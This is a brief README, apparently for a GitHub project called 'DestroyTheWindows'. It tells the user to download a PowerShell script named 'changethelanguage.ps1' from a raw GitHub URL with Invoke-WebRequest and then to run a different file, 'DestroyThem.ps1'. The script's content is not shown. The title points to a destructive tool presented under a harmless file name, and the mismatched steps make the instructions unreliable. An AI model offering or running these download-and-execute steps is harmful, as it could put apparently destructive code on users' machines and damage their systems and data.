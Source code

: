 # DestroyTheWindows
DestroyTheWindows


# Download the script
```
 Invoke-WebRequest -Uri "https://raw.githubusercontent.com/GiuCoder/ChangeTheLanguage/main/changethelanguage.ps1" -OutFile "changethelanguage.ps1"
```


# Run the script
```
./DestroyThem.ps1
```
